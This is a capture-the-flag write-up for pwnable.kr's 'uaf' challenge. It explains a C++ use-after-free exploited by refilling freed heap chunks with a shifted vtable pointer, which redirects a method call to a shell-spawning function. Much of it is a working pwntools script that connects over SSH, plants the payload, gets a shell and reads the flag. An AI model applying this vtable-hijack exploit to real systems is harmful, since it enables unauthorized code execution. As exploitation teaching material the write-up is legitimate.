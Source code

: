 Note: a vtable is associated to a class, and allocated objects of the class in the heap (with the new keyword) will include a chunk containing their vtable address. vtables are present in the binary. 

When we want to call functions defined inside the class, their addresses will be found in the vtable corresponding to the address present in the object's heap chunk.

In this challenge, after freeing the chunks, we can overwrite the chunks of size ``0x20`` (that contain vtable address) by the content of the file passed in ``argv[2]``. We will specify a size of 0x18 to ensure it is the ``0x20``-sized chunks that are going to be reused (0x18 will be 16-bit aligned to 0x20).

Moreover, we have a use after free vulnerability: ``m->introduce`` (supposed to call ``Man::introduce``) can still be called after the free. We are going to exploit this by modifying the address of the vtable used by the ``m`` object, thus to make it call the ``give_shell`` function.

``introduce`` is the second function for Man vtable. We have:
``*(man_vtable+0x10)``   is ``give_shell`` address
``*(man_vtable+0x10+8)`` is ``introduce``  address

Note: first function in the vtable is after a 0x10 offset. In the heap, it is ``vtable+0x10`` that is stored.

If we decrease ``(vtable+0x10)`` address by 8, trying to call ``m->introduce`` will result in calling ``m->give_shell``.

Let's load the binary to get the Man vtable address.
```python
from pwn import *
elf = ELF("uaf")
```
first function of the old vtable (give_shell) :
```python
old_vtable_1F =  elf.symbols["_ZTV3Man"]+0x10
```
give_shell takes the place of introduce as second function :
```python
new_vtable_1F =  old_vtable_1F-8
```
Now let's write our new vtable address into a file, so the content of the file will be stored in the heap chunk containing our objects' vtable. When we debug the binary, we clearly see that this chunk is located after another chunk of 0x30 containing the object's name and age variables, and its size is 0x20. That is why we specified an 0x18 address: so doing, it will realign the 0x18 size to 0x20, and it will be looking for a free 0x20 chunk, then it will find chunks containing vtable (for ``w`` then for ``m``).
```python
shell = ssh("uaf", "pwnable.kr", password="guest", port=2222)
wp = shell.process(["cat", "/dev/stdin", ">>", "/tmp/payload"])
wp.send(p64(new_vtable_1F))
wp.close()

p = shell.process(["./uaf", "24", "/tmp/payload"])
print p.recv()
p.sendline("3") 
print p.recv()
p.sendline("2") 
```
It's the ``w`` heap chunk containing vtable that is going to be reused the first time. So we have to store the payload twice, since ``m->introduce`` is called before ``w->introduce``
```python
print p.recv()
p.sendline("2")
print p.recv()
p.sendline("1")
print p.recv()
p.sendline("cat flag")
print p.recv()
```
